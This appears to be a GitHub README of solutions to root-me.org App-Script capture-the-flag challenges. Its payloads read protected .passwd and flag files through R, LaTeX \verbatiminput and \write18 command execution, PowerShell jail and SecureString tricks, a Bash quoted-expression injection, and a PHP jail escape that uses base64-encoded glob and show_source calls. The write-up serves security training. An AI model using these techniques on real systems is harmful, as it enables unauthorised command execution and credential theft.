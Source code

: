 # root-me.org-payloads

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 

First create a latex file :

```bash
vi /tmp/pwned.tex
```
Then copy this payload on the file :

```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```
Then execute the script passing this latex file in argument :
```bash
./setuid-wrapper /tmp/pwned.tex
```

Then retrieve the output pdf with scp :
```bash
scp app-script-ch23@challenge02.root-me.org:/tmp/YOUR_OUPUT_FILE /~
```

The flag should be printed on it

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
Do the same as the above but in your latex file copy this payload :

```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside

### PHP - Jail
[PHP - Jail](https://www.root-me.org/fr/Challenges/App-Script/PHP-Jail)

### Paylaod 

First we can get the source code of the script with the following command :
```php 
echo show_source(getenv(SHELL));
```

After sanitizing it we get the following script :

![Source code of the jail](https://image.noelshack.com/fichiers/2024/01/1/1704119452-screenshot-from-2024-01-01-15-30-39.png)

We can see that many php functions are blocked by the regex, with this command we can get the list of all the functions available :
```php
print_r(get_defined_functions())
```

We can see that [base64](https://www.php.net/manual/en/function.base64-decode.php) functions are available as well as [implode](https://www.php.net/manual/en/function.implode.php) and [glob](https://www.php.net/manual/en/function.glob.php). Let's try this command :

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/1/1704120632-screenshot-from-2024-01-01-15-50-21.png)

In this command we pass the value of '/challenge/app-script/ch13/*' encoded in base64 to an array then with the function implode we split the array into a string and we do a glob.
The result of this command will be :
```php 
print_r(glob(/challenge/app-script/ch13/*,GLOB_ONLYDIR));
```

We can see that there is a subfolder /passwd. We do the same command in the /passwd subfolder :
```php
print_r(glob(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy4q)))))
```

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/2/1704201285-screenshot-from-2024-01-02-14-14-02.png)

We can see that there is a .passwd file so we just now have to open with the following command:

```php 
echo show_source(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy5wYXNzd2Q))));
``
```

Wich will be interpreted as :
```php
echo show_source(/challenge/app-script/ch13/passwd/.passwd);
```


